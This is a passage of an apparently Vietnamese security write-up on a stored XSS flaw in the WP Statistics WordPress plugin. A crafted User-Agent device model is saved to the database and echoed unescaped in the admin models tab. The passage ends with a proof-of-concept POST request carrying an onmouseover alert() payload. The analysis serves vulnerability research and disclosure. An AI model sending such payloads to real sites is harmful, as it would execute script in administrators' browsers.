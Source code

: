 Sau đó duyệt qua `$parsers`, set cấu hình bao gồm các regex trong file `.yml`, nếu regex khớp tức parse thành công, gán model, device, brand cho `DeviceDetector`

{{< figure src="debug4.png" caption="Debug tab gán giá trị cho các tham số của DeviceDetector" >}}

{{< figure src="debug5.png" caption="Debug tab giá trị của model" >}}

Như vậy ta đã biết được cách kiểm soát model trước khi gán nó vào `$visitor` và thêm vào database.

{{< figure src="debug6.png" caption="Debug tab giá trị của model trong $visitor" >}}

Kiểm tra **database**:

```sql
mysql> SELECT ID, last_counter, referred, agent, platform, version, device, model FROM wp_statistics_visitor;
+----+--------------+----------+---------------+----------+---------+------------+--------------+
| ID | last_counter | referred | agent         | platform | version | device     | model        |
+----+--------------+----------+---------------+----------+---------+------------+--------------+
| 63 | 2025-10-01   |          | Chrome Mobile | Android  | 93      | smartphone | Google Pixel |
| 64 | 2025-10-01   |          | Chrome Mobile | Android  | 93      | smartphone | Goly payload |
+----+--------------+----------+---------------+----------+---------+------------+--------------+
```

Kiểm tra trong **UI tab models**:

{{< figure src="ui1.png" caption="Model được hiển thị trong UI tab models" >}}

### Sources & Sinks

**Source:** `User-Agent` header (POST `/wp-json/wp-statistics/v2/hit`) — DeviceDetector parse → `getModel()`.
**Sink:** `includes/admin/templates/pages/devices/models.php` — `echo $item->model` (không `esc_html()` / `esc_attr()`)

### Flow

1. Attacker gửi UA chứa payload XSS trong model
2. Model chứa payload được lưu trong database
3. Admin mở tab models => payload chạy.

## Exploit

### Proof of Concept (PoC)

* Gửi request chứa XSS payload:

```http
POST /wp-json/wp-statistics/v2/hit HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Linux; Android 14; Goly "onmouseover=alert()-" Build) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/120.0.0.0 Mobile Safari/537.36

wp_statistics_hit=1&source_type=home&source_id=0&search_query=&signature=787b07b8979cb982ec89a4f103a68081&endpoint=hit&referred=&page_uri=Lw%3D%3D
```
